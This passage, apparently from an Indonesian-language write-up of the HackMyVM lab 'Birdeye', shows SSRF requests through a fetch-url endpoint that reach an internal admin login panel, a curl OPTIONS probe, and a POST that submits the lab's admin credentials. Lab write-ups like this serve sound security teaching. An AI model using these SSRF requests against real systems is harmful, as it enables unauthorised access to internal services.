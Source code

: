 Panel login hanya dapat diakses secara internal. Kita perlu menggunakan SSRF untuk mengaksesnya:

```http
GET /api/fetch-url?url=http://localhost:5000/admin/panelloginpage
```

Berhasil! Login form ditampilkan melalui proxy SSRF.

![Login Panel via SSRF](/assets/img/post/HackMyVm-Birdeye/foto4.png)

### Authentication via SSRF POST Request

Karena halaman di-render melalui `/fetch-url`, kita tidak dapat login secara langsung. Kita perlu mengirim POST request melalui endpoint SSRF.

**Memeriksa Method yang Diizinkan:**

```bash
curl -iX OPTIONS "http://192.168.56.105/api/fetch-url?url=http://localhost/admin/panelloginpage"
```

**Response:**
```
Allow: HEAD, GET, POST, OPTIONS
Access-Control-Allow-Methods: GET, POST, OPTIONS
```

POST method diizinkan! Sekarang kita dapat mengirim kredensial.

**Login Request via SSRF:**

```http
POST /api/fetch-url?url=http://localhost/admin/panelloginpage&method=POST HTTP/1.1
Host: 192.168.56.105
Content-Type: application/x-www-form-urlencoded
Content-Length: 52

admin_user=superadmin&admin_password=SuperSecret123!
```
